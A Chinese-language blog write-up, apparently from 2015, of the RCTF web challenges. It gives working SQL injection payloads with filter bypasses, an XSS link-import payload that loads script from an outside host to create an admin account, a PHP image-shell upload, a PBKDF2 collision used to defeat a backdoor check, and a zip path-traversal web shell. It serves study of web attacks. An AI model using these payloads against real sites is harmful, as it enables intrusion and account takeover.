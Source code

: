 ```yaml
---
layout: post
title: RCTF-writeup[web]
tags: [writeup]
categories: writeup
date: 2015-11-17 09:34:39
---
```


**upload**

看起来是一个上传题，其实这是一个注入题。在文件名的地方存在注入。因为注入点是insert的，如果直接进行报错注入或者延时注入的话会提示sqlinject find。我们可以利用二次注入，来得到数据。通过fuzz发现，在进行insert操作的时候有三个列，所以构造

```
文件名','uid','uid'),((database()),'uid','uid')#.jpg
```
就可以看到回显的数据，然后通过走流程就可以查询出flag，但是有一点要注意题目直接把select from 这些关键字过滤了两次所以得构造这样的selselectect才行。


**weeeeeb3**

先注册一个帐号，然后找回密码，输入正确的信息。到第二步提示修改新的密码的时候，直接抓包把用户名修改为admin。然后就可以登陆admin这个帐号，然后在manage页面提示 not allow ip 我们把xxf改为127.0.0.1就可以绕过。然后要我们猜action 由于是filemanage就直接猜action＝upload 然后就出现一个上传页面，通过一轮fuzz，直接上传一个图片马，在后面写上

```
<script lanaguage="php"> phpinfo()</script>
```
把后缀改为php5 就成功拿到了flag。


**xss**

这是一个留言板，通过fuzz发现过滤了很多标签，除此之外还把on事件直接给过滤了。后面测试发现可以使用link标签，然后使用sctf里面那种方法就可以弹框了。

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdD5kZWxldGUgYWxlcnQ7YWxlcnQoIkhlbGxvIik7PC9zY3JpcHQ+">
```
![xss-1.jpg](/old_img/2017-04-17-1170534972.jpg)

查看页面的html源码发现

```
<!--only for admin
<form action="" method="post">
username:<input type="text" name="name"><br />
password:<input type="password" name="pass"><br />
<input type="radio" name="isadmin" value="0">user
<input type="radio" name="isadmin" value="1">admin<br />
<input type="hidden" name="token" value="34a1615ff3eaf616f7fa205a12792d27">
<input type="submit" name="adduser" value="adduser">
</form>-->
```
很明显啦，就是要添加一个管理帐号帐号，发现页面使用啦jquery直接添加帐号就行。

```javascript
<script src=http://180.76.178.54:8004/4b79f5d4860384d4ac494ad91f5313b7/js/jquery.js></script>
<script>
$.ajax({
                               type: "post",
                               url: "",
                               data: "name=tomato123&pass=tomato123&isadmin=1&adduser=adduser&token="+$("input[name=token]").val()})
</script>
```

然后构造payload

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovLzE4MC43Ni4xNzguNTQ6ODAwNC80Yjc5ZjVkNDg2MDM4NGQ0YWM0OTRhZDkxZjUzMTNiNy9qcy9qcXVlcnkuanM+PC9zY3JpcHQ+CjxzY3JpcHQ+CiQuYWpheCh7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB0eXBlOiAicG9zdCIsCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB1cmw6ICIiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgZGF0YTogIm5hbWU9dG9tYXRvMTIzJnBhc3M9dG9tYXRvMTIzJmlzYWRtaW49MSZhZGR1c2VyPWFkZHVzZXImdG9rZW49IiskKCJpbnB1dFtuYW1lPXRva2VuXSIpLnZhbCgpfSkKPC9zY3JpcHQ+">
```
添加了一个帐号密码为tomato123的管理员
访问admin.php拿到flag

![xss－2.jpg](/old_img/2017-04-17-545225687.jpg)




**easysql**

注册一个aaa\然后在修改密码的页面可以发现报错


![easysql-1.jpg](/old_img/2017-04-17-2913177276.jpg)

可以看到是双引号，这明显是一个二次注入，然后重新构造语句发现不能含有空格。但是这并不影响，直接用括号代替就行了。


![easysql-2.jpg](/old_img/2017-04-17-157009057.jpg)

然后爆出一个flag表，查询提示说flag not here，然后去查users里面的列名发现


![easysql－3.jpg](/old_img/2017-04-17-3268258668.jpg)

然后直接去查询里面的内容，发现只能出现RCTF这几个字符，然后就一直在纠结怎么查询，因为测试发现把substring left，right，reverse like 这些都拦截了。后面灵机一动想到了regexp。

```
username=tomato"||updatexml(0x7c,concat((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^R'))),1)#&password=tomato&email=tomato
```
然后成功搞定


![easysql－4.jpg](/old_img/2017-04-17-1387239513.jpg)


**login**

第二天给了提示说是nosql，那就猜是mongodb
![login-1.jpg](/old_img/2017-04-17-3330162428.jpg)

那就开始跑密码了。
![login－2.jpg](/old_img/2017-04-17-3255963769.jpg)

跑出的帐号密码为

```
ROIS_ADMIN  pas5woRd_i5_45e2884c4e5b9df49c747e1d
```
然后登陆一发。

![login-3.jpg](/old_img/2017-04-17-460039838.jpg)

下载备份文件，发现是一个php的解压zip的类，然后百度找到官方提供的，在diff一下


![login-4.jpg](/old_img/2017-04-17-1149569489.jpg)


还在html源码里面发现

```php
$Agent = $_SERVER['HTTP_USER_AGENT'];
$backDoor = $_COOKIE['backdoor'];
$msg = json_encode("no privilege");
$iterations = 1000;
$salt = "roisctf";
$alg = "sha1";
$keylen = "20";
if ($Agent == $backDoor || strlen($Agent) != 65) {
    exit($msg);
}
if (substr($Agent,0,23) != "rois_special_user_agent") {
    exit($msg);
}
if (pbkdf2($alg, $Agent, $salt, $iterations, $keylen) != pbkdf2($alg, $backDoor, $salt, $iterations, $keylen)) {
    exit($msg);
}
```
测试发现直接上传zip提示没有权限，然后只有过了上面三个条件才行。主要是第三个条件不好过，然后google一发
pdkdf2 ctf 


![2664205826](/old_img/2017-04-17-2664205826.jpg)

找到了这个 PBKDF2+HMAC collision
然后在https://mathiasbynens.be/notes/pbkdf2-hmac
这篇文章里面说到这个是可以碰撞的，就是不同的明文会出现相同的密文，然后用里面提供的脚本跑一发。成功跑出来一个

```
rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd

3-Rfm^Bq;ZZAcl]mS&eE
```
然后改一下ua，在cookie里面添加backdoor就可以成功上传了。


![2009859300](/old_img/2017-04-17-2009859300.jpg)

按照解压出来的文件的命名规则为md5(文件名＋RoisFighting).文件的后缀
但是访问http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/051ee28a1964f9f2779d32f2e48212cb/70d08f9380da3a6e0440b3266a2a39f6.php
![2977300730](/old_img/2017-04-17-2977300730.jpg)

文件并不存在，测试发现在解压后会直接删除文件，所以我们可以尝试构造一个解压到上级目录的shell




![login-7.jpg](/old_img/2017-04-17-2977300730.jpg)

shell地址就是
http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/382aef24b11f8c5222bc58062a9bf5c7.php


  

